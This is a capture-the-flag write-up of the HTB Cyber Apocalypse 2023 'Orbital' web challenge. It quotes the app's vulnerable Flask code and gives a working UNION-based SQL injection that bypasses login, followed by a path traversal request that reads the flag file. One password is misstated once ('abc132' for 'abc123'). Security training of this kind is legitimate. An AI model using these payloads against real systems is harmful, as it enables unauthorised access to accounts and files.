



# [Cyber Apocalypse 2023](index.md) - Web - Orbital

> In order to decipher the alien communication that held the key to their location, she needed access to a decoder with advanced capabilities - a decoder that only The Orbital firm possessed. Can you get your hands on the decoder?

As usual we are provided with a zip file and a spawnable docker container.



The website is a login page, nothing to do here right now, lets look at the code.

```dockerfile
# copy flag
COPY flag.txt /signal_sleuth_firmware
```
It looks like the flag is going to be in a directory called `/signal_sleuth_firmware`. Interesting.

```dockerfile
COPY files /communications/
```

There's another file being copied - looks like it's an mp3 file... 7 seconds of Rick Astley's Never Gonna Give You Up. Nice.

In `entrypoint.sh` we can see a database get initialized. Look like theres a single user - admin - with a random password that we're not going to be able to guess.

```sql
INSERT INTO orbital.users (username, password) VALUES ('admin', '$(genPass)');
```

The login route looks very similar to the one from _Web - Drobots_, another challenge from this CTF.

```py
@api.route('/login', methods=['POST'])
def apiLogin():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()
    username = data.get('username', '')
    password = data.get('password', '')

    if not username or not password:
        return response('All fields are required!'), 401

    user = login(username, password)

    if user:
        session['auth'] = user
        return response('Success'), 200

    return response('Invalid credentials!'), 403
```
It checks to make sure the JSON payload is valid, and that the username and password exist, but does not sanitize them before sending them to `login()`.

```py
def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)

    if user:
        passwordCheck = passwordVerify(user['password'], password)

        if passwordCheck:
            token = createJWT(user['username'])
            return token
    else:
        return False
```
Like _Drobots_, there's a comment here from a developer - looks like they learned from the last time, but they are still concatenating strings together instead of using parameters. This is probably what we're going to have to attack.

The password we give is compared against the password from the database using the `passwordVerify` function, so lets take a look at that.

```py
def passwordVerify(hashPassword, password):
    md5Hash = hashlib.md5(password.encode())

    if md5Hash.hexdigest() == hashPassword: return True
    else: return False
```
It looks like they are storing hashes instead of passwords in the database now, so that's nice. I'm not sure if there's anything here that we can tamper with.

Taking a look around the other routes, we can see an `/export` route with another comment from the developer.

```py
@api.route('/export', methods=['POST'])
@isAuthenticated
def exportFile():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()
    communicationName = data.get('name', '')

    try:
        # Everyone is saying I should escape specific characters in the filename. I don't know why.
        return send_file(f'/communications/{communicationName}', as_attachment=True)
    except:
        return response('Unable to retrieve the communication'), 400
```
This looks promising, and based on the comment left by the developer, it's probably vulnerable to a directory traversal exploit, but... it requires authentication, so we need to get that figured out first.

```py
def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)

    if user:
        passwordCheck = passwordVerify(user['password'], password)

        if passwordCheck:
            token = createJWT(user['username'])
            return token
    else:
        return False
```

So the SQL query they are using is:
```sql
SELECT username, password FROM users WHERE username = "username"
```
And this retrieves the password for that user, and compares it against an MD5 hash of what the user submitted in the login form. This means we can't bypass the need for a password - we need to submit something to the login system that will verify against whatever this query pulls out, and we have no way of knowing what the "admin" user's password was set to.

We can't easily use SQL injection to extract information from the database either, because nothing from this query gets displayed to us on a failed login (ie: "The password for _____ was not correct!").

So, we need to override the password that this query returns. Thankfully the `username` field is 100% still susceptible to injection, as there are no sanity checks or sanitation done to it before it's inserted into the SQL query.

At this point, I installed __MariaDB__ on a VM at home, to make it easier to develop a query that would work. I copied the database setup SQL commands directly from the `entrypoint.sh` script, but modified the admin user's password for simplicity.

```sh
sudo apt update && sudo apt install mariadb-server
mariadb
```
```sql
MariaDB [(none)]> create database orbital;
Query OK, 1 row affected (0.000 sec)

MariaDB [(none)]> CREATE TABLE orbital.users (
    ->     id INTEGER PRIMARY KEY AUTO_INCREMENT,
    ->     username varchar(255) NOT NULL UNIQUE,
    ->     password varchar(255) NOT NULL
    -> );
Query OK, 0 rows affected (0.061 sec)

MariaDB [(none)]> INSERT INTO orbital.users (username, password) VALUES ('admin', 'doesntmatter');
Query OK, 1 row affected (0.005 sec)

MariaDB [(none)]> use orbital;
```
I was pretty sure that a `UNION` statement could be used to insert static values into the query, but didn't know the exact syntax to do so. After some tinkering and some research, I found a query that did what I wanted:

```sql
SELECT username, password FROM users WHERE username = "" UNION SELECT "admin","e99a18c428cb38d5f260853678922e03";
```
```sql
MariaDB [orbital]> SELECT username, password FROM users WHERE username = "" UNION SELECT "admin","e99a18c428cb38d5f260853678922e03";
+----------+----------------------------------+
| username | password                         |
+----------+----------------------------------+
| admin    | e99a18c428cb38d5f260853678922e03 |
+----------+----------------------------------+
```

`e99a18c428cb38d5f260853678922e03` is the MD5 hash for `abc132`, which I will use in the login request so it matches.

So, in order to inject that query into the one that they are using in the challenge, I will need to use the following as a username:

```sql
" UNION SELECT "admin","e99a18c428cb38d5f260853678922e03" --
```
__With a trailing space at the end__, which this page may automatically strip out. If this is not there, the comment won't work, and the SQL query will crash.

There is still no security on the login form handling system, so we can just copy and paste this into the login form and we're in (remember the trailing space).




Perfect - Now we need to take a look at that vulnerable `/export` endpoint.

At this point though I switched over to using [Insomnia](https://insomnia.rest) because I find it easier to talk to an API with a tool designed for the task. A person could easily use Postman, Burp Suite, or just any web browser's developer tools - I'm a developer who works on APIs, and I like Insomnia, so it's what I chose.

In Insomnia I repeated the login processes by sending the following `POST` request to `/api/login`

```json
{
	"username" : "\" UNION SELECT \"admin\",\"e99a18c428cb38d5f260853678922e03\" -- ",
	"password" : "abc123"
}
```

Insomnia then automatically stored the login session cookie, so I didn't have to transfer it over from the browser.

Lets take a look at the `/export` API endpoint code.
```py
@api.route('/export', methods=['POST'])
@isAuthenticated
def exportFile():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()
    communicationName = data.get('name', '')

    try:
        # Everyone is saying I should escape specific characters in the filename. I don't know why.
        return send_file(f'/communications/{communicationName}', as_attachment=True)
    except:
        return response('Unable to retrieve the communication'), 400
```

I originally assumed that it was doing a database lookup for the communications based on the name from the table, but I noticed that it's actually just directly referencing the filename on the server, so this will be much easier than I originally thought.

When you're logged in and looking at the dashboard it gives you, and click the download button beside the transmissions, they all talk to this API endpoint and retrieve `communication.mp3` - specifically `/communications/communication.mp3`. Each database entry refers to the same file, for simplicity.

In the `Dockerfile`, we can see that the flag is actually in a file called `/signal_sleuth_firmware`:
```dockerfile
COPY flag.txt /signal_sleuth_firmware
```
I made the mistake of assuming that it was located at `/signal_sleuth_firmware/flag.txt`, and spent an embarrasingly long amount of time trying to get the following exploit to work, only to discover that I should have read more closely.

In Insomnia, I set up a `POST` request to go to `/api/export`, with the following `json` body:

```json
{ "name" : "/../signal_sleuth_firmware" }
```
And the response body contains the flag.

```
HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}
```